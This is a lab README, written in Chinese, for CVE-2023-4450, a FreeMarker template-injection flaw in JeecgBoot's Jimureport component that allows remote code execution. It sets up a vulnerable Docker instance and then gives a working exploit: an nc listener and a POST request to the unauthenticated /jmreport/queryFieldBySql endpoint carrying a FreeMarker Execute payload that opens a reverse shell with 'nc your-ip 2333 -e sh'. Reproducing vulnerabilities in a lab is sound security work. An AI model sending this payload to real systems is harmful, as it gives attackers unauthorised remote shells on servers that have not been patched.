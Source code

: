 # JeecgBoot SSTI (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JeecgBoot 是一个开源的低代码开发平台，Jimureport 是低代码报表组件之一

当前漏洞在 1.6.1 以下的 Jimureport 组件库中都存在. 由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析
SQL 语句从而导致了 RCE 漏洞的产生.

引用:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## 漏洞环境

执行如下命令启动 3.5.3 版本的 JeecgBoot 后端:

```
docker compose up -d
```

在服务启动后，可访问 `http://your-ip:8080/jeecg-boot/jmreport/list` 积木工作台页.

## 漏洞利用

### 反弹 Shell

使用 nc 开启监听端口 2333

```bash
 nc -lvvp 2333
```

通过 `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql` sql 参数传递 freemarker payload。

```http request
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 2333 -e sh\")}",
    "type": "0"
}
```

![](1.png)